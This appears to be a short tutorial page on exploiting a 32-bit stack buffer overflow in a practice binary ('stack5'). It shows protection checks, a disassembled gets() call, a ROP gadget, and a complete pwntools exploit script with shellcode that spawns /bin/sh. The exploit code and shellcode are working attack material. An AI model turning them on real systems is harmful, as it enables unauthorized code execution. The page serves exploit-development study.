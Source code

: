 # Simple Buffer Overflow


### 32bit Binary

If a binary has none of the following protections which simply means you can tweak with accordingly.

```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

To use the binary for your own advantage, either you create a shellcode which can be pushed onto stack and since the stack is executable(NX disabled) yi can use it call your shellcode. Shellcode can be found on shell-storm or even exploitdb.

##### Example

We have a binary, which takes a buffer and have the `main`:- 

```

Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret  

```

Checking for gadgets to jump on stack and execute the shellcode. Using ropper we found `0x080483bf: call eax;` which will call the eax and hence, the shellcode will be at eax ad calling it out will execute the shellcode.

Using, gdb we can get the buffer offset and create the following exploit:-

```python
from pwn import *

p = process("./stack5")

sh = '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

payload =  sh + "A"*18 + p32(0x080483bf)
p.sendline(payload)
```
